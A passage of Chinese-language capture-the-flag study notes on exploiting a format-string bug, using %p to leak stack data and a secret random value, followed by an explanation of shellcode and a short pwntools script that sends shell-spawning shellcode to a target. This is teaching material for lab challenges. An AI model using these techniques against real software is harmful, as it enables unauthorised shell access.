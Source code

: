 ```c
  return v5 - __readfsqword(0x28u);
}
```

- 使用printf直接输出输入内容，可使用%p格式化输出指针信息（TODO: 哪个对应指针？我们如何利用这个指针地址？）

```bash
What's your name?
$ %p
Your name:
0x7fb88b1c0643
```

- `__isoc99_scanf` 据说没有写入的字节数限制，因此可以用于溢出（这边用不到）
- 我们是否需要绕过 canary？不用
- 根据栈空间数据的分配原理，可尝试使用 `%p` 顺次输出向低地址方向的十六进制数据

```bash
Your name:
0x1
0x1
0x7f979299d887
0xa
0x7f9792aa3280
0x7f9792aa4780
0x503526cf // 我们需要的随机数区间
0x7025702570257025 // 0x p%，输入区间
0x7025702570257025
_\xfe\x7f
```

- `0x7025` 对应 `p%`，后续输出的是输入区变量 `buf` 的值
- 将随机数的十六进制数值转化即可获得 shell

## 这是什么？shellcode

计算机能直接执行但人类不可读的东西叫机器码，shellcode 就是用于 getshell 的机器（汇编）码。如果能输入并将程序执行流劫持至 shellcode 就太好了。

> pwntools shellcraft 模块确实好用，但是请试着自己手写一个 shellcode 吧！

虽然但是，使用 `pwntools` 生成汇编代码的脚本如下：

```python
from pwn import *

context(arch = "amd64", bits = 64, os = "linux")

ss = asm(shellcraft.amd64.sh())
io.sendafter(">", ss)

io.interactive()
```

对于 shellcode 的编写，可以考虑看看汇编语言。
